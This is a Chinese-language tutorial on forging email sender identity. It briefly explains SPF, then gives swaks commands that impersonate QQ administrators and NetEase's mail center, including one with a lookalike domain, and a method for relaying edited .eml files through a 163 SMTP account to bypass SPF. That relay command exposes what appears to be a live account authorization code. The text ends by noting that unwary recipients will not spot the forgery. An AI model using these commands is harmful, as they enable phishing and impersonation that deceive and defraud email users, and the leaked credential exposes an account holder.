 SPF协议：
SPF是什么？SPF是Sender Policy Framework（发件人策略框架）的缩写，是一种电子邮件身份验
证技术，通过在发件人的DNS记录中添加SPF记录，以确保目标邮件服务器验证发件人的身份，判断是否信任该邮件。
SPF作用是什么？当一封电子邮件发送到目标邮件服务器时，该服务器会根据发件人邮箱的SPF记录来验证发件人身份是否合法。如果验证不通过，则邮件服务器可能会将其标记为垃圾邮件或直接拒绝接收。
配置SPF有利于提高发件人信誉并避免垃圾邮件。
简单理解就是为了防止伪造邮件而设置的一种保护机制！


查询是否配置SPF：
CMD启动命令行：
nslookup -type=txt qq.com
nslookup -type=txt 163.com

Linux环境下：
dig -t txt qq.com
dig -t txt 163.com

以上协议是邮件常用的保护机制。也就是说，如果我们想要进行邮件伪造，那么就必须绕过这个协议。

邮件可以被伪造的根本原因：
邮件发送和接受遵循SMTP协议（电子邮件传输协议），该协议不会验证发送者的身份，当邮件在两个不同的SMTP邮件服务器中被传输时，有心者可以通过伪造来源，欺骗接收者的SMTP服务器。
当没有配置SPF时，也就是没有配置邮件保护机制的时候。邮件服务器就不会去验证发件人，就可以直接进行伪造！


没有配置SPF的情况下可以使用邮件伪造的工具来伪造发送邮件：
临时邮箱： https://www.linshi-email.com/
临时邮箱： http://24mail.chacuo.net/

1，利用邮件伪造工具给临时邮箱发邮件。

![[Pasted image 20241024193813.png]]









2，kali系统中的邮件伪造工具
swaks --to oitfsomdfq@iubridge.com --from niko@qq.com -ehlo qq.com --body hello --header "xiaoolin"

swaks --header-X-Mailer "" --header-Message-Id "" --header-"Content Type"="text/html" --from  "QQ管理<admin@qq.com>" --ehlo xiaolin -header "Subject:测试" --body 我们做了一个测试 --to oitfsomdfq@iubridge.com
--to <收件人邮箱>

--from <要显示的发件人邮箱>

--ehlo <伪造的邮件ehlo头，即发件人邮箱的域名。提供身份认证>

--body <引号中的内容即为邮件正文>

--header <邮件头信息，邮件标题>



配置SPF的情况下：
软刚伪造（打字眼）
思路：配置了SPF的邮箱会检测邮件来源，那么如果我们稍微修改一下邮件的来源地址，让他看起来和正常的地址区别不大，能否成功绕过SPF呢
1，找到非常官方的、正式的邮件，复制发件人信息
2，使用kali模仿伪造发件人
swaks --to xiaolin65535@foxmail.com --from mail@service.netease.com.cn -ehlo qq.com --body hello --header "xiaolin"
#将发件人信息中的mail@service.netease.com后面加上.cn（让他看起来和真正的“网易邮件中心”极其相似！）
甚至还可以更像：
swaks --to xiaolin65535@foxmail.com --from "网易邮件中心<mail@service.netease.com.cn>" -ehlo qq.com --body hello --header "xiaolin"



硬刚（转发突破）
思路：伪造的邮件直接发送给对方时，会被对方SPF检测来源从而导致邮件被拦截或者直接进入垃圾箱。
那咱们秉承打不过就加入的原则。
注册一个大众常用的邮箱，然后开启POP3转发功能。这样本该由伪造者直接发送给目标的邮件会经有中转邮件转发！
简单来说：当开启网易邮箱转发功能之后，kali发送伪造邮件给QQ邮箱时，会由网易邮箱代为转发。这样QQ邮箱的SPF协议检测邮件来源时会显示是由网易邮箱发送的，因此可以绕过SPF
1，注册一个已知的邮箱系统（大众常用的）开启POP3邮件转发功能
2，将开启后的授权码记录下来
3，找需要伪造的邮件（正式的邮件比如：QQ、网易、阿里云）导出为eml
4，以文本打开导出的邮件，修改伪造邮件的内容
from:发件人邮箱

to:收件人信息

时间(自定义)

内容（根据情况伪造邮件内容）

5，将修改过的邮件内容上传到kali，调用swaks发送伪造邮件
swaks --to xiaolin65535@foxmail.com --from 13687330103@163.com --data 1.eml --
server smtp.163.com -p 25 -au 13687330103@163.com -ap SFIMUWAUIIXCOBWH

--data <将正常源邮件的内容保存成TXT文件，再作为正常邮件发送>

--server <调用163网易邮箱的转发服务>

-p <指定SMTP服务器的端口号>

-au <指定SMTP服务器的URL地址>

-ap <指定用户凭据>

#调用163网易邮箱的POP3转发功能去转发伪造邮件（需要加上授权码）


6，收到并查看伪造邮件
查看伪造邮件时发现：发件人是正式的官方邮箱，如果安全意识不强的人压根就不会注意下方的代发邮箱。
成功伪造官方邮箱账号发送邮箱！

